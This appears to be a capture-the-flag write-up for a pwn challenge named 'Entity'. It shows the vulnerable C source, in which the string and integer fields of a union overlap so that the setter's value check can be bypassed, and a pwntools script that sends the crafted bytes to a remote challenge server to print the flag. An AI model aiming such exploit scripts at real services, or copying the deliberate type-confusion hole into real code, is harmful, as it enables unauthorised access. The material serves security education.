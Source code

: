 # [Pwn] Entity

This challenge is composed of a binary and its C source code. The code consists mainly in a `union` whose fields are either set or get, depending on the user input.

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;

typedef enum {
    STORE_GET,
    STORE_SET,
    FLAG
} action_t;

typedef enum {
    INTEGER,
    STRING
} field_t;

typedef struct {
    action_t act;
    field_t field;
} menu_t;
```

The setter will copy the input buffer into the recipient field if we are setting the STRING type

```c
void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}
```

If we copy the right value to the string, to overflow into the integer, we can bypass the setter check (the integer is different from `13371337`). Yet, this value is required to run the `get_flag` function

```c
void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}
```

After some trial and error, this exploit is about:

 - running the different commands (`T` then `S`) to set the STRING
 - set it to the bytes corresponding to `13371337`
 - run the get flag command (`C`)

```python
from pwn import *

def wait_for_input(r, lines):
    lel = r.recvlinesS(lines)
    print('\n'.join(lel))

def main():
    r = remote('142.93.35.129',31171)
    wait_for_input(r, 7)
    r.send(b'T\n')
    wait_for_input(r, 3)
    r.send(b'S\n')
    wait_for_input(r, 3)
    leet_num = 13371337
    r.send(leet_num.to_bytes(8, 'little'))
    r.send(b"\n")
    wait_for_input(r, 5)
    r.send(b'C\n')
    flag = r.readline()
    print(flag)
    r.close()

main()
```
